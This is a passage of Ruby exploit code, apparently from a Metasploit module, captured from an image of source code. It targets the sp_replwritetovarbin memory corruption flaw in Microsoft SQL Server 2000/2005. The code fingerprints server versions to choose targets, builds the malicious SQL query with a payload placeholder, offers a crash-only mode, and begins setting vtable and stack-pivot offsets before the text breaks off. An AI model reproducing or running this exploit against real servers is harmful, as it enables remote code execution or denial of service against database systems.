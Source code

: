           if (version =~ /8\.00\.194/)
            mytarget = targets[1]
          elsif (version =~ /8\.00\.384/)
            mytarget = targets[2]
          elsif (version =~ /8\.00\.534/)
            mytarget = targets[3]
          elsif (version =~ /8\.00\.760/)
            mytarget = targets[4]
          elsif (version =~ /8\.00\.2039/)
            mytarget = targets[5]
          elsif (version =~ /9\.00\.1399\.06/)
            mytarget = targets[6]
          elsif (version =~ /9\.00\.2047\.00/)
            mytarget = targets[7]
          elsif (version =~ /9\.00\.3042\.00/)
            mytarget = targets[8]
          end

          if mytarget.nil?
            raise RuntimeError, "Unable to automatically detect the target"
          else
            print_status("Automatically detected target \"#{mytarget.name}\"")
          end
        else
          mytarget = target
        end

        sqlquery = %Q|declare @i int,@z nvarchar(4000)
    set @z='declare @e int,@b varbinary,@l int;'
    set @z=@z+'exec sp_replwritetovarbin %NUM%,@e out,@b out,@l out,''%STUFF%'',@l,@l,@l,@l,@l,@l,@l,@l'
    exec sp_executesql @z|

        # just crash it with a pattern buffer if the CRASHER target is selected..
        if mytarget.name == 'CRASHER'
          sploit = Rex::Text.pattern_create(2048)
          print_status("Attempting to corrupt memory to cause an exception!")
          num = 32
        else
          # trigger the memory corruption
          num = mytarget['Num']
          vt_off = mytarget['VtOff']
          vt_disp = mytarget['VtDisp']
          vtable = mytarget['Vtable']
          ecx_disp = mytarget['Disp']
          esp_off = mytarget['Offset']
          hijack_esp = mytarget['ecx2esp']
          first_esp = mytarget['Popped']
          fix_esp = mytarget['FixESP']
          writable = mytarget['Writable']
          corruptable_bytes = 0x44

